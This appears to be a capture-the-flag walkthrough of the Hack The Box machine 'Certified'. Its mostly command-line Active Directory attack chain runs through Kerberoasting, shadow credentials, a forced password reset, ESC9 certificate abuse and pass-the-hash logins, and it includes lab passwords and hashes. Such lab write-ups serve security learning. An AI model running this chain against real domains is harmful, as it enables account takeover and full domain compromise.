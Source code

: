 ```yaml
---
date: 2025-03-02
categories: [Windows, Medium, AD]
---
```


![Certified](https://labs.hackthebox.com/storage/avatars/28b71ec11bb839b5b58bdfc555006816.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [ruycr4ft](https://app.hackthebox.com/users/1253217)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---








- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.41 -oG scan
	nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49673,49674,49683,49713,49737,49770 -sCV -Pn 10.10.11.41 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/562af0c0-6107-4299-8d61-d07a25081056)

- I have access via smb to the IPC$ folder and thanks to that I am able to enumerate the system
	
	```python
	netexec smb 10.10.11.41 -u judith.mader -p judith09 --shares
	```
	
  ![image](https://github.com/user-attachments/assets/0e02d615-3f70-4cf1-9f6b-3aa37acabf86)
	
	```python
	netexec ldap 10.10.11.41 -u judith.mader -p judith09  --bloodhound --collection All --dns-server 10.10.11.41
	```
	
	![image](https://github.com/user-attachments/assets/70950ca1-9d8e-42c5-91d6-183b5133e0d9)

- Before analyzing with bloodhound, I see on which user I can request a TGS as I have valid credentials.
	
	![image](https://github.com/user-attachments/assets/964b2a67-8a1f-475a-b706-73cc3dd90707)
	
	```python
	rdate -n 10.10.11.41; impacket-GetUserSPNs certified.htb/judith.mader:judith09 -request
	```
	
	![image](https://github.com/user-attachments/assets/329bb3ac-ff7d-48e0-8e7c-3d6d62ef3709)

- I can request it from the management_SVC user and sometimes I can break it and get his password. After completing the whole machine I understand why I can sometimes break the TGS and sometimes not. As this is not the intended way to complete the machine I am not going to follow up on this point

- Analyzing with bloodhound I see that I have “WriteOwner” permission on the management group and then it has “GenericWrite” permission on the management_svc user.
- Thanks to the first one I can change the owner of the object and with the second one I can change the user's password without knowing the current one.
	
	![image](https://github.com/user-attachments/assets/847f8569-77d8-4378-b714-26cd12d0d9fd)

- I start by adding the user judith.mader to the management group with owneredit from impacket
	
	```python
	owneredit.py -action write -new-owner 'judith.mader' -target-dn 'CN=management,CN=Users,DC=certified,DC=htb' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41
	```
	
	![image](https://github.com/user-attachments/assets/3e47628d-6261-4a3a-81db-51d3c088761a)

- With this I get the user's ticket but I am not able to get his password in clear text.
	
	```python
	rdate -n 10.10.11.41; ./targetedKerberoast.py --dc-ip '10.10.11.41' -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'
	```

- By observing that judith has “Owns” and “WriteOwner” permissions on the group managements, and this group has “GenericWrite” permission on the user Management_svc. We can first become a member of the group and get the user's hash. This is known as Kerberos PKINIT.
	
	```python
	pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"  --filename test1
	#request a Ticket-Granting-Ticket (TGT) for the domain controller
	./gettgtpkini.py -cert-pfx test1.pfx -pfx-pass  4l99njREI8ehV7aLoA7a certified.htb/Management_svc Management_svc.ccache
	#set the KRB5CCNAME environment variable,
	export KRB5CCNAME=Management_svc.ccache
	#Using the tool `getnthash.py` from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U to submit a TGS request with the [Privileged Attribute Certificate (PAC)]which contains the NT hash for the target. This can be decrypted with the AS-REP encryption key we obtained when requesting the TGT earlier.
	rdate -n 10.10.11.41; ./getnthash.py -key d85b3ba5fcb9c40d666dd6c4d7413c9273276f039ea2342d32dff2723ad291a1 certified.htb/Management_svc
	```

	![image](https://github.com/user-attachments/assets/3ed89ad0-35f6-441e-97b3-3aede681f85e)

- Having already the hash of the user management_svc, I comment myself on WinRM and I manage to read the first flag.

```python
evil-winrm -i 10.10.11.41 -u Management_svc -H a091c1832bcdd4677c28b5a6a1295584
```

![image](https://github.com/user-attachments/assets/016dc472-d780-4ea5-9bc2-992b10cc6511)

- Having the credentials of this user, we can move laterally to the ca_operatos user by changing its password.
- By having “GenerilcAll” permission on the user ca_operator, I can set the user's password without knowing the current password.
	
	![image](https://github.com/user-attachments/assets/dfb7e7c0-94b0-46b4-92c5-165abf716a1a)
	
	```python
	pth-net rpc password "ca_operator" "newP@ssword2022" -U certified.htb/management_svc%"a091c1832bcdd4677c28b5a6a1295584":"a091c1832bcdd4677c28b5a6a1295584" -S dc01.certified.htb
	
	crackmapexec smb 10.10.11.41 -u 'ca_operator' -p 'newP@ssword2022'
	```
	
	![image](https://github.com/user-attachments/assets/0f85e58d-c9cb-4d94-8b78-f486ac269d5f)

- With these credentials we enumerate the system in order to add the certificate part to bloodhound.
		
	```python
	rdate -n 10.10.11.41; certipy-ad req -u ca_operator@certified.htb -p newP@ssword2022 -dc-ip 10.10.11.41  -ca certified-DC01-CA -target certified.htb -template User
	crackpkcs12 -d /usr/share/wordlists/rockyou.txt ca_operator.pfx -t 25
	
	#Downlaod the fork version of bloodhound
	rdate -n 10.10.11.41; certipy-ad find -u ca_operator@certified.htb -p newP@ssword2022 -dc-ip 10.10.11.41 -old-bloodhound
	```

- With the certipy tool I search for any vulnerability in the certificate. It tells me that it may be vulnerable to ESC9 
- With the “find” option you can list AD CS certificate templates, certificate authorities and other settings
	
	```python
	certipy-ad find -u ca_operator -p 'newP@ssword2022' -dc-ip 10.10.11.41 -stdout -enabled -vulnerable
	```
	
	![image](https://github.com/user-attachments/assets/ea342568-037e-41f9-9cf8-f7d2dfbec237)

- To exploit this vulnerability I get help from this [page](https://adminions.ca/books/adcs-abusing-active-directory-certificate-service/page/esc9) that tells me the steps to execute.

	```python
	rdate -n 10.10.11.41; certipy-ad shadow auto -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -account ca_operator
	
	certipy-ad account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn administrator
	
	
	certipy-ad req -username "ca_operator@certified.htb" -hashes "01794af19fd00af4f2528923c4ef08be" -target "certified.htb" -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'    
	
	certipy-ad account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn "ca_operator@certified.htb" 
	
	
	rdate -n 10.10.11.41; certipy-ad auth -pfx  ca_operator.pfx -domain certified.htb
	```
	
	![image](https://github.com/user-attachments/assets/fcd30e2a-da51-49ef-9acd-664161b4967c)

	![image](https://github.com/user-attachments/assets/9d3892e7-f36a-4687-bcbe-593785b7ac09)

- After validating and confirming that the ntlm hash is correct for the administrator user, I connect to the system and get to read the second flag
	
	```python
	 evil-winrm -i 10.10.11.41 -u administrator -H "0d5b49608bbce1751f708748f67e2d34"
	```
